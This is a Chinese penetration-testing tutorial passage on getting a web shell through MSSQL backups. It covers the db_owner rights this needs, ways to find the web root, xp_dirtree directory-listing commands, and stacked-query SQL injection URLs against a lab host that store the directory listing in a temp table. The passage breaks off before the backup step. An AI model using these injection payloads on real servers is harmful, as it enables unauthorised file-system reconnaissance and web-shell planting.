 
# 第七章 MSSQL备份拿shell


### 0x00 简介

备份拿shell也就涉及到了权限的问题，SA权限不用说没有降权的话基本能做任何事情了，它数据库权限是`db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下shell，但是在设置目录权限后就不行了。



### 0x01 路径的寻找

需要路径的我们一般有几个思路：

1. 报错寻找 

2. 字典猜

3. 旁站信息收集

4. 调用储存过程来搜索

6. 读配置文件



这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录 一般我们可以用xp_cmdshell xp_dirtree 

`xp_dirtree` `xp_subdirs`

```
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 

```

那么我们怎么利用呢，执行xp_dirtree返回我们传入的参数如果你想吧文件名一起返回来，因为没有回显所以可以这样创建一个临时的表插入

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

http://192.168.130.137/1.aspx?id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1

```
